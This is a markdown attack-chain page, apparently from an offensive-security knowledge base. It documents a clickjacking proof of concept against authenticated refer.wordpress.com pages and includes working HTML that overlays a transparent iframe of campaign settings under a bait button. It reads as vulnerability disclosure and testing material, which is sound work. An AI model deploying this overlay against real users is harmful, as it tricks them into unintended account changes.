

---
tags:
  - clickjacking
  - web
  - iframe
  - wordpress
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Create-Clickjacking-HTML-PoC]]'
  - '[[procedures/Test-Clickjacking-in-Browser]]'
step_count: 2
techniques:
  - '[[Drive-by Compromise]]'
updated_at: '2025-12-14T17:28:12.662Z'
description: >-
  A clickjacking attack exploiting the lack of X-Frame-Options on authenticated
  pages of refer.wordpress.com, allowing attackers to overlay invisible iframes
  and trick users into modifying account details.
skill_level: beginner
impact_level: high
id: b7b5f2e5-8d20-4ea0-90e7-6a61683a8dab
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
---
# Clickjacking on refer.wordpress.com to Trick Authenticated Users into Account Modification

Multi-stage attack chain demonstrating a complete attack workflow exploiting a clickjacking vulnerability on authenticated pages of refer.wordpress.com.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~2 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (manual HTML creation and browser testing)

### Target Environment

- Web platform
- Authenticated access to refer.wordpress.com affiliate network
- No specific services/ports required beyond standard HTTPS (443)

### Initial Access Requirements

- Attacker must host or locally serve the malicious HTML page
- Victim must be an authenticated user of refer.wordpress.com
- No prior network access needed; attack relies on social engineering to lure victim to malicious page

## Detailed Attack Procedures

### Step 1: Create Clickjacking PoC
procedure: [[procedures/Create-Clickjacking-HTML-PoC]]

**Objective**: Build a simple HTML file that embeds the vulnerable authenticated page in an iframe without frame-busting protections, demonstrating the clickjacking potential.

**Instructions**: Manually create an HTML file with an iframe targeting the campaign-settings page. Save it as `clickjack-poc.html`.

The HTML structure uses CSS to make the iframe transparent and positioned for overlay attacks:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Clickjacking PoC</title>
    <style>
        iframe {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            opacity: 0.5; /* Adjust to 0 for invisible */
            z-index: -1;
        }
        .bait { /* Overlay button to trick clicks */
            position: absolute;
            top: 100px;
            left: 100px;
            z-index: 1;
        }
    </style>
</head>
<body>
    <button class="bait">Click here to win!</button>
    <iframe src="https://refer.wordpress.com/affiliate-network/campaign-settings/"></iframe>
</body>
</html>
```

**Expected Output**: A local HTML file ready for testing that loads the target page in an iframe.

**Success Indicators**:
- HTML file created without errors
- Iframe src points to the authenticated endpoint

### Step 2: Test Clickjacking in Browser
procedure: [[procedures/Test-Clickjacking-in-Browser]]

**Objective**: Verify the vulnerability by opening the PoC in a browser while authenticated to refer.wordpress.com, confirming the page loads unrestricted in the iframe.

**Instructions**: Ensure you are logged into refer.wordpress.com in your browser. Then, open the `clickjack-poc.html` file locally (e.g., double-click or serve via a local server like Python's `http.server`).

Observe that the campaign-settings page loads inside the iframe without any frame-busting (e.g., no X-Frame-Options denial). Adjust opacity to 0 and align the bait button over sensitive controls like account modification fields to simulate tricking a user.

For local serving (optional, to mimic remote attack):

```bash
python3 -m http.server 8000
```
Then navigate to `http://localhost:8000/clickjack-poc.html`.

**Expected Output**: The authenticated page renders fully in the iframe, allowing potential overlay for user deception.

**Success Indicators**:
- Iframe loads without blocking or alerts
- Authenticated content is visible and interactive through the overlay

## Attack Chain Summary

### Key Achievements

1. Demonstrated embedding of protected page in iframe due to missing X-Frame-Options
2. Enabled potential for tricking users into unintended actions like account changes
3. Highlighted critical impact on authenticated affiliate network users

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
